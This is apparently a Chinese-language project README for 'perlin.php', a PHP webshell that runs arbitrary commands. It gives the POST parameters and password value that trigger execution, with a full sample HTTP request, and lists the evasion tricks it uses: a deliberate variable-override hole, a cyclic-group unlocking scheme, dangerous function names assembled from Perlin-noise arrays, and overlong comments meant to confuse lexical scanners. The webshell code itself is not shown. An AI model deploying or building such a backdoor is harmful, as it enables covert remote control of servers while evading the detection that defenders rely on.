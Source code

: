 * * *

要使用本WebShell，需要在`POST`方法中添加`3`个参数：

*   **wpstring     =>    `ABBCCD`**
*   **b           =>    `s`**
*   **pcs          =>    `<要执行的命令>`**

比如：

```Text
POST /perlin.php HTTP/1.1
Host: 127.0.0.1:7000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 35

wpstring=ABBCCD&b=s&pcs=hostnamectl

```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/611e200a-ed43-4900-8141-a35958f14d68.webp?raw=true)

* * *

1.  **操作系统**：`Windows`、`Linux`、`macOS`
2.  **PHP版本**：PHP `5` 全版本、PHP `7` 全版本、PHP `8` 全版本

* * *

*   使用刻意编写的**变量覆盖漏洞**传递参数；
*   使用线性代数中的**循环群运算**原理制作程序锁定器；
*   **在“柏林噪声”随机数生成算法生成的数组中添加关键危险字符**；
*   关键危险字符的生成内容由程序锁定器的运算结果决定，**若运算错误则无法生成正确字符**；
*   在**程序的执行过程中使用阻断器**，若未解锁则阻断函数返回值传递
*   使用超长行注释干扰词法引擎。

* * *

本WebShell由`4`个模块组成：

*   **`InazumaPuzzle`程序锁定器类**
*   **`PerlinNoise`危险函数生成与执行类**
*   **变量传值覆盖模块**
*   **代码执行阻断模块**

下面将对这4个模块进行逐一讲解。
